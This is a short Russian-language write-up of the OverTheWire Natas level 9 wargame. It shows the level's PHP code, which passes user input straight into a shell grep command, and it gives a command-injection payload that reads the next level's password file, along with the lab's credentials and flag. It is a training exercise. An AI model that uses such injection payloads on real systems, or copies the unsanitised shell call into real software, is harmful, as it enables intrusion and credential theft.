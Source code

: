 # NATAS_9 WriteUp
:computer: Host: http://natas9.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas9  
:key: Password: Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

:triangular_flag_on_post: Flag: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

- [NATAS\_9 WriteUp](#natas_9-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом
![Скриншот веб-приложения](./img/natas9/natas9_0.png)

Ввод слова ``test`` привёл к вот такой реакции  
![Скриншот веб-приложения](./img/natas9/natas9_1.png)

Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
// HTML Code ...
```
## Решение
<a name="Решение"></a>
В исходном коде веб-приложения видим команду, которая выполняет поиск по вводимому пользователем слову  
```php
passthru("grep -i $key dictionary.txt");
```

Выводим флаг от этой лабораторки при помощи уязвимости Command Injection  
:space_invader: Payload: ``; cat /etc/natas_webpass/natas10; # ``  

![Получение флага](img/natas9/natas9_4.png)

Полученный флаг: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
